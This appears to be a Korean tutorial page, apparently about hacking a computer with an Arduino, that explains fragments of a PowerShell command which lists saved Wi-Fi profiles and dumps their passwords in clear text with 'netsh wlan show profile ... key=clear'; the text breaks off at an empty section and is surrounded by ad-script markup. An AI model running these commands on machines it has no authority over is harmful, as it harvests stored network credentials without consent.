<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 명령어 이해하기

## 섹션 A

이 명령어 섹션은 캐시된 SSID를 표시하고 ":(.+$" 문자열을 정규 표현식으로 필터링합니다.

```js
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim();
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_3.png" />

## 섹션 B

```js
%{(netsh wlan show profile name="$name" key=clear)}
```

이전 파이프에서 검색한 $name 변수를 사용했음을 주의하세요. netsh wlan 함수를 다시 호출하여 SSID에 대한 추가 정보를 얻습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_4.png" />

## 섹션 C
